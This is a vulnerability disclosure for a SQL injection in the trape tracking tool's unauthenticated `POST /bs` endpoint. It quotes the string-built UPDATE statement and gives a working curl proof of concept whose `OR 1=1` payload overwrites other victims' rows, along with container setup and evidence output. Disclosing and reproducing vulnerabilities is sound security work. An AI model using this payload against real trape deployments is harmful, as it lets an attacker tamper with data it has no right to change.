



# CVE-2026-50914 — SQL Injection in Trape `POST /bs`

[CVE ID]
CVE-2026-50914

[PRODUCT]
jofpin/trape — an open-source client-side honeypot / OSINT investigation tool (~8.6k stars) that tracks visitors through a web panel.

[VERSION]
master @ commit `6baae245691997742a51979767254d7da580eadd`

[PROBLEM TYPE]
SQL Injection (`CWE-89`)

## Description

The `POST /bs` battery-status endpoint reads the attacker-controlled form field `t` and passes it unvalidated into the SQL layer as a column-expression fragment. In `core/db.py` the `update_battery` statement is built by string concatenation, so `t` becomes part of the SQL syntax itself:

```python
return ("UPDATE victims_battery SET " + data[2] + " = ? WHERE id = ?", (data[1], data[0]))
```

An unauthenticated remote attacker (the endpoint has no authentication) can craft `t` to inject an arbitrary `WHERE` predicate — e.g. neutralizing `WHERE id = ?` with `OR 1=1` — so the `UPDATE` affects rows the attacker does not own (horizontal privilege violation against all tracked victims), and more generally can influence the statement structure of the SQLite database.

Vulnerable code:
- https://github.com/jofpin/trape/blob/6baae245691997742a51979767254d7da580eadd/core/user.py#L143-L145 (`b_type = request.form['t']` → `db.sentences_victim('update_battery', [vId, b_data, b_type], 2)`)
- https://github.com/jofpin/trape/blob/6baae245691997742a51979767254d7da580eadd/core/db.py#L140-L141 (concatenated `UPDATE victims_battery SET ...` statement)

## Proof of Concept

Reproduced on a Linux server (Docker 28.3.0) against the pinned commit; all requests were sent over HTTP from the Docker host to the containerized instance (the endpoint itself has no authentication and is reachable by any network client that can reach the panel). The project ships no Docker setup, so a minimal image is built from the official `python:3.11-slim` base.

### Victim setup

```bash
git clone https://github.com/jofpin/trape.git && cd trape
git checkout 6baae245691997742a51979767254d7da580eadd

cat > Dockerfile.scdd-e2e <<'DOCKERFILE'
FROM python:3.11-slim
WORKDIR /app
COPY . /app
RUN pip install --no-cache-dir --upgrade pip \
  && pip install --no-cache-dir -r requirements.txt \
  && printf '{"ngrok_token":"","gmaps_api_key":"","ipinfo_api_key":"","gshortener_api_key":""}\n' > trape.config \
  && touch database.db
EXPOSE 5000
CMD ["bash", "-lc", "set -euo pipefail; exec python3 -u trape.py -u http://example.com -p 5000 -ak scdd_e2e"]
DOCKERFILE

docker build -t scdd-platform/trape:6baae245 --file Dockerfile.scdd-e2e .
docker run --rm -d --name scdd_trape -p 38170:5000 scdd-platform/trape:6baae245
```



### Attack steps

Two victims register themselves through the normal `POST /register` flow, creating two independent rows in `victims_battery`:

```bash
for V in cve_victim_a_1790569016 cve_victim_b_1790569016; do
  curl -sS -X POST http://127.0.0.1:38170/register \
    -H 'Content-Type: application/x-www-form-urlencoded' \
    --data-urlencode "vId=$V" --data-urlencode 'cpu=x86_64' --data-urlencode 'city=test' \
    --data-urlencode 'country_code2=US' --data-urlencode 'country_name=test' \
    --data-urlencode 'ip=127.0.0.1' --data-urlencode 'latitude=0' --data-urlencode 'longitude=0' \
    --data-urlencode 'isp=test' --data-urlencode 'country_code3=USA' \
    --data-urlencode 'state_prov=test' --data-urlencode 'zipcode=00000' \
    --data-urlencode 'organization=test'
  # -> {"status": "OK", "vId": "..."}
done
```

The attacker then sends an injection payload in the `t` field that rewrites the statement as
`UPDATE victims_battery SET level = ? WHERE id = ? OR 1=1 -- = ? WHERE id = ?`, keeping the two `?` placeholders aligned with the two bound parameters while invalidating the row restriction:

```bash
curl -sS -X POST http://127.0.0.1:38170/bs \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'id=cve_victim_a_1790569016' \
  --data-urlencode 'd=1337' \
  --data-urlencode 't=level = ? WHERE id = ? OR 1=1 -- '
# -> {"status": "OK", "vId": "cve_victim_a_1790569016"}
```



### Evidence

Both the application's own API and a direct SQLite dump inside the container confirm that **victim_b** — not addressed by the attacker — had its battery level overwritten to the injected value `1337.0`:

```bash
# application-side read-back
curl -sS -X POST http://127.0.0.1:38170/get_preview \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'vId=cve_victim_a_1790569016' -o preview_va.json
curl -sS -X POST http://127.0.0.1:38170/get_preview \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'vId=cve_victim_b_1790569016' -o preview_vb.json
grep -oF '1337.0' preview_va.json    # -> 1337.0
grep -oF '1337.0' preview_vb.json    # -> 1337.0  (victim_b was NOT addressed by the attacker)

# independent in-container ground truth
docker exec -e VA=cve_victim_a_1790569016 -e VB=cve_victim_b_1790569016 scdd_trape python3 -c \
  "import os,sqlite3,json; a=os.environ['VA']; b=os.environ['VB']; c=sqlite3.connect('database.db'); cur=c.cursor(); cur.execute('SELECT id, level FROM victims_battery WHERE id IN (?,?) ORDER BY id',(a,b)); print(json.dumps(cur.fetchall()))"
# -> [["cve_victim_a_1790569016", 1337.0], ["cve_victim_b_1790569016", 1337.0]]
```



## Impact

An unauthenticated attacker who can reach the trape panel can modify rows belonging to arbitrary victims in the `victims_battery` table (demonstrated: cross-victim overwrite of `victims_battery.level`) and corrupt the integrity of collected OSINT data. The injection controls the column-expression and `WHERE` clause of this single `UPDATE` statement (built for `sqlite3.Cursor.execute()`, so multi-statement payloads are not in scope); the demonstrated effect is attacker-chosen value writes to arbitrary rows and columns of `victims_battery`. No authentication is required; the only precondition is network reachability of the trape panel.

## Occurrences

- `core/user.py:L143-L145` — untrusted `request.form['t']` forwarded as SQL fragment
- `core/db.py:L140-L141` — `"UPDATE victims_battery SET " + data[2] + ...` string-built statement

## References

- [CVE-2026-50914](https://www.cve.org/CVERecord?id=CVE-2026-50914)
- [jofpin/trape repository](https://github.com/jofpin/trape)
- Full session log: [evidence/transcript.txt](evidence/transcript.txt)
